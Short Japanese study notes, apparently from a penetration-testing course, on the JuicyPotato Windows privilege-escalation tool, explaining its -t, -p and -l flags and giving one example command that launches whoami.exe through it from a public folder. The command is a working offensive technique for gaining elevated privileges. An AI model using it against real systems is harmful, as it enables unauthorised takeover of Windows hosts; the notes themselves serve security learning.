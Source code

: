 # JuicyPotato
必須の引数
>-tフラグ：プロセス作成モード(SeImpersonate権限がある場合) 
　　　　　CreateProcessWithTokenを使用する場合は「t」値を渡す  
>-pフラグ：実行しようとしているプログラムを指定    
>-lフラグ：COMサーバーがリッスンする任意のポートを指定     
```
C:\Users\Public\JuicyPotato.exe -t t -p C:\Users\Public\whoami.exe -l 5837
```
###### ※学習資料 24.8.4.Jenkinsサーバーの権限昇格参照